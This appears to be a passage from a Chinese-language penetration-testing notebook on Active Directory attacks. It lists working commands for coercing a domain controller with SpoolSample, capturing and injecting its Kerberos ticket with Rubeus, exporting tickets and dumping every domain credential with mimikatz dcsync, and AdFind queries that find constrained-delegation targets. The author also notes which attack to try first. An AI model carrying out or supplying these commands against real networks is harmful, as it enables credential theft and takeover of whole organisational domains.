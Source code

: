 参考：<br />[https://www.cnblogs.com/Yang34/p/14264356.html](https://www.cnblogs.com/Yang34/p/14264356.html)<br />[https://xz.aliyun.com/t/7217#toc-8](https://xz.aliyun.com/t/7217#toc-8)<br />默认情况下Spooler服务为自动启动 <br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626103945611-b1a05267-ee3e-43ed-8f27-30492500b698.png#averageHue=%23d8d2cf&height=399&id=H4dxp&originHeight=399&originWidth=406&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24885&status=done&style=none&title=&width=406)<br />通过SpoolSample.exe，向域控发起请求，强制其访问PC进行身份验证，此次更换了多个环境，均出现报错，只能先记录下攻击手法：

强制域控机器名向B机器名发起身份验证<br />SpoolSample.exe 域控机器名 B机器名

```
后续用Rubeus来监听事件id为4624的事件，可以第一事件截取到域控的TGT，监听来自域控OWA2013的登录
Rubeus.exe monitor /interval:1 /filteruser:域控机器名$

后续再Rubeus导入base64的票据直接注入进内存
Rubeus.exe ptt /ticket:base64
用mimikatz也可
privilege::debug
sekurlsa::tickets /export

导入票据后ptt即可
kerberos::ptt XXX.kirbi
lsadump::dcsync /domain:rootkit.org /all /csv
```
<a name="8BaI4"></a>
### 约束性委派攻击(优先打这个
[域渗透-委派攻击 - FreeBuf网络安全行业门户 (2022_11_2 17_13_00).html](https://www.yuque.com/attachments/yuque/0/2022/html/1345801/1667380455611-b48d0470-752b-4df4-8cd8-f3a24b875a03.html?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fhtml%2F1345801%2F1667380455611-b48d0470-752b-4df4-8cd8-f3a24b875a03.html%22%2C%22name%22%3A%22%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%A7%94%E6%B4%BE%E6%94%BB%E5%87%BB%20-%20FreeBuf%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E8%A1%8C%E4%B8%9A%E9%97%A8%E6%88%B7%20(2022_11_2%2017_13_00).html%22%2C%22size%22%3A8165874%2C%22type%22%3A%22text%2Fhtml%22%2C%22ext%22%3A%22html%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22mode%22%3A%22title%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u4aaa75bb-4ca4-4eaf-aa4c-839b93ff4af%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22ufbcbe3e9%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)(这文章不错，但是基于资源委派这一块还是差了点)<br />[https://mp.weixin.qq.com/s/dcYbIfLwN-Aw0Z9XxQSGkQ](https://mp.weixin.qq.com/s/dcYbIfLwN-Aw0Z9XxQSGkQ) 实战案例，不错

主动(只要设置了CIFS能访问域控，就能打<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667405514593-aa06dfc9-acc8-4c95-baef-3f4fcf47df5e.png#averageHue=%23f3f3f3&clientId=u935d02d8-8334-4&from=paste&height=156&id=ud50758db&originHeight=195&originWidth=1809&originalType=binary&ratio=1&rotation=0&showTitle=false&size=76417&status=done&style=none&taskId=u098b0f3e-9fb5-4557-9392-7fedcf53e9c&title=&width=1447.2)
<a name="Td3S8"></a>
#### 查询域中配置约束委派
```
#查询域中配置约束委派的主机
AdFind.exe -b "DC=warsec,DC=com" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" -dn

#查询域中配置约束委派的服务账户
AdFind.exe -b "DC=warsec,DC=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" -dn
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1670946963726-67186199-bc1d-45f8-9d7c-aefaddc11d06.png#averageHue=%23050403&clientId=u4b277e6e-d297-4&from=paste&height=243&id=u3117e18d&originHeight=304&originWidth=1038&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29773&status=done&style=none&taskId=ub2c34306-c609-4107-9172-9b7f1e2c66c&title=&width=830.4)[<br />](https://mp.weixin.qq.com/s/dcYbIfLwN-Aw0Z9XxQSGkQ)
